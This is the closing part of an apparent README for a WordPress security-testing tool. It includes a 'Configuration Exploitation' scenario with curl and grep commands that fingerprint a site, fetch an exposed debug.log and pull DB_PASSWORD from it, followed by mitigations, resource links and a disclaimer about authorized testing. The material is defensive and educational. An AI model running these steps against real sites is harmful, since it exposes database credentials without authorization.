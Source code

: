 **Mitigation**: Plugin inventory management, automated updates, security policies

### Scenario 2: Configuration Exploitation
```bash
# 1. Enumerate WordPress version
curl -s target.com | grep "wp-includes" | head -1

# 2. Access debug logs
curl "target.com/wp-content/debug.log"

# 3. Extract database credentials
grep "DB_PASSWORD" debug.log
```

**Mitigation**: Disable debug mode, secure file permissions, log rotation

## 📚 Additional Resources

### Security Frameworks
- [OWASP WordPress Security Guide](https://owasp.org/www-project-wordpress-security/)
- [WordPress Hardening Documentation](https://wordpress.org/support/article/hardening-wordpress/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)

### Vulnerability Databases
- [WPScan Vulnerability Database](https://wpvulndb.com/)
- [CVE Details - WordPress](https://www.cvedetails.com/product/4096/Wordpress-Wordpress.html)
- [WordPress Security Team](https://make.wordpress.org/core/handbook/security/)

## 🤝 Contributing

1. Fork the repository
2. Create feature branch (`git checkout -b feature/security-enhancement`)
3. Commit changes (`git commit -am 'Add advanced XSS detection'`)
4. Push to branch (`git push origin feature/security-enhancement`)
5. Create Pull Request

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## ⚠️ Disclaimer

This tool is for educational and authorized security testing purposes only. Always ensure you have explicit permission before testing any WordPress installation. Unauthorized security testing may violate local laws and regulations.

---

**Built with ❤️ for the cybersecurity community**
